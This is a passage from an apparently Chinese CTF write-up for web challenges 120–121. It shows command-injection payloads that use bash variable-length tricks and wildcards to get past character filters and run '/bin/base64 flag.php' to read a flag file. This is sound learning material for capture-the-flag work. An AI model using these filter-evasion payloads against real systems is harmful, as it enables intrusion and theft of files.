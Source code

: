- ${PWD:${#}:${#SHLVL}}???${PWD:${#}:${#SHLVL}}?${USER:~${PHP\_VERSION:~A}:${PHP\_VERSION:~A}} ????.???

![image.png](https://img08.mifile.cn/v1/MI_542ED8B1722DC/343c2b4e8e7da64e0df1d08102ae2482.png)

![image.png](https://img08.mifile.cn/v1/MI_542ED8B1722DC/5939c69d80b172b705db240a7ca6654b.png)

## Web120：

解题思路：path被过滤采用shell的base加密，可以构造出/bin/base64 flag.php，只需要/和4两个字符就行，其他的可以用通配符代替。

/很简单，pwd的第一位就是，因为这题ban了数字，所以可以用该题值必是1的${#SHLVL}绕过

SHLVL

是记录多个 Bash 进程实例嵌套深度的累加器,进程第一次打开shell时${SHLVL}=1，然后在此shell中再打开一个shell时$SHLVL=2。

只需要${PWD::${SHLVL}}，结果就是/

RANDOM

此变量值，随机出现整数，范围为0-32767。不过，虽然说是随机，但并不是真正的随机，因为每次得到的随机数都一样。为此，在使用RANDOM变量前，请随意设定一个数字给RANDOM，当做随机数种子，这样才不会每次产生的随机数其顺序都一样。

4的问题，可以用${#RANDOM}，在Linux中，${#xxx}显示的是这个值的位数不加#是变量的值，加了#是变量的值的长度，例如12345的值是5，而random函数绝大部分产生的数字都是4位或者5位的，因此可以代替4.

payload：由于是随机的所以要多试几次。

code=${PWD::${#SHLVL}}???${PWD::${#SHLVL}}?????${#RANDOM} ????.???

![image.png](https://img03.mifile.cn/v1/MI_542ED8B1722DC/2ab55c77efaeedfbdece23d57b5faf88.png)

![image.png](https://img03.mifile.cn/v1/MI_542ED8B1722DC/66f3bb1cd98fc6489afa0b5d149402ff.png)

## Web121：

![image.png](https://img08.mifile.cn/v1/MI_542ED8B1722DC/f8798eac0d787d33df5951b524257661.png)

解题思路：该题的path，和shlvl被禁用。

$# $? 这两个的值都为0

加上#代表长度就为1

这题最关键的SHLVL被过滤了，可以用${##}或${#?}代替

①code=${PWD::${##}}???${PWD::${##}}?????${#RANDOM} ????.???

②code=${PWD::${#?}}???${PWD::${#?}}?????${#RANDOM} ????.???

Payload：${PWD::${#?}}???${PWD::${#?}}?????${#RANDOM} ????.??? // /bin/base64 flag.php

![image.png](https://img08.mifile.cn/v1/MI_542ED8B1722DC/6438ab4aacfb02e403aea843e91efcd7.png)

## Web122：
